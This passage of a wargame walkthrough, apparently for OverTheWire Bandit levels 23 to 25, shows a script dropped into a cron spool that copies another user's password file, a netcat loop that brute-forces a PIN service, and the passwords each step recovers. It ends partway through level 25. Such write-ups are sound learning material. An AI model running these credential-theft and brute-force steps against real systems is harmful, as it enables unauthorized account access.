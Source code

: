 # 24. Level 23

Create a shell script `/var/spool/bandit24/shell.sh`.

```bash
#!/bin/bash

mkdir /tmp/ving
cat /etc/bandit_pass/bandit24 > /tmp/ving/pass
```

```
$ chmod 777 /var/spool/bandit24/shell.sh
```

```
$ cat /tmp/ving/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

# 25. Level 24

Create a shell script `/tmp/ving/shell.sh`

```bash
#!/bin/bash

i=1000
while [ $i -lt 10000 ]
do
    echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i | nc localhost 30002 > /tmp/ving/log.txt
    i=$(($i+1))
done
```

```
$ bash /tmp/ving/shell.sh
```

```
$ cat /tmp/ving/log.txt | sort | uniq
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

# 26. Level 25

```
$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

```
$ cat /usr/bin/showtext
```
